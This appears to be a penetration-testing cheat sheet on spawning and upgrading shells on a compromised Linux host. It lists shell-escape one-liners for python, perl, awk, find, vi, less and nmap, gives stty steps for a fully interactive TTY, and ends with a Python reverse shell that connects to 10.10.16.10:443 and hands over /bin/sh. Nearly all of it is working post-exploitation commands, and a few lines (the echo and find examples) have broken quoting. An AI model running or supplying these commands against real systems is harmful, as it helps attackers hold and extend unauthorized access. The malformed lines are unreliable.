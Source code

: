 # Spawning shells

## Non-interactive tty-shell

If you have a non-tty-shell there are certain commands and stuff you can't do. This can happen if you upload reverse shells on a webserver, so that the shell you get is by the user www-data, or similar. These users are not meant to have shells as they don't interact with the system has humans do.

So if you don't have a tty-shell you can't run `su`, `sudo` for example. This can be annoying if you manage to get a root password but you can't use it.

Anyways, if you get one of these shells you can upgrade it to a tty-shell using the following methods:

**Using python**

```
python -c 'import pty; pty.spawn("/bin/sh")'
python3 -c 'import pty; pty.spawn("/bin/sh")'
```

**Echo**

```
echo 'os.system('/bin/bash')'
```

**sh**

```
/bin/sh -i
```

**bash**

```
/bin/bash -i
```

**Perl**

```
perl -e 'exec "/bin/sh";'
perl: exec "/bin/sh";
```

**Ruby**

```
ruby: exec "/bin/sh"
```

**Awk**

```
awk 'BEGIN {system("/bin/sh")}'
```

**Find**

```
find / -name blahblah 'exec /bin/awk 'BEGIN {system("/bin/sh")}' \;
```

**More, less, or man**

Type more, less, or man command with a file then try one of the following:

```
'! /bin/sh'
'!/bin/sh'
'!bash'
```

**Lua**

```
lua: os.execute('/bin/sh')
```

**From within IRB**

```
exec "/bin/sh"
```

**From within VI**

```
:!bash
```

or

```
:set shell=/bin/bash:shell
```

or execute

```
vi ;/bin/bash
```

once exit vi \(:q!\) we would get a shell. Helpful in scenarios where the user is asked to input which file to open

**From within nmap**

```
!sh
```

## Interactive tty-shell

So if you manage to upgrade to a non-interactive tty-shell you will still have a limited shell. You won't be able to use the up and down arrows, you won't have tab-completion. This might be really frustrating if you stay in that shell for long. It can also be more risky, if a execution gets stuck you cant use Ctr-C or Ctr-Z without killing your session. However that can be fixed using socat. Follow these instructions.

[https://github.com/cornerpirate/socat-shell](https://github.com/cornerpirate/socat-shell)

**Using stty**

```
# In reverse shell
$ python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z

# In Kali
$ stty raw -echo
$ fg

# In reverse shell
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows <num> columns <cols>
```

## Simple Reverse Shell

```
echo "import socket" > script.py
echo "import subprocess" >> script.py
echo "import os" >> script.py
echo "s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)" >> script.py
echo 's.connect(("10.10.16.10",443))' >> script.py
echo "os.dup2(s.fileno(),0)" >> script.py
echo "os.dup2(s.fileno(),1)" >> script.py
echo "os.dup2(s.fileno(),2)" >> script.py
echo 'p=subprocess.call(["/bin/sh","-i"])' >> script.py
```

## References:

[http://unix.stackexchange.com/questions/122616/why-do-i-need-a-tty-to-run-sudo-if-i-can-sudo-without-a-password](http://unix.stackexchange.com/questions/122616/why-do-i-need-a-tty-to-run-sudo-if-i-can-sudo-without-a-password)  
[http://netsec.ws/?p=337](http://netsec.ws/?p=337)  
[http://pentestmonkey.net/blog/post-exploitation-without-a-tty](http://pentestmonkey.net/blog/post-exploitation-without-a-tty)

https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/

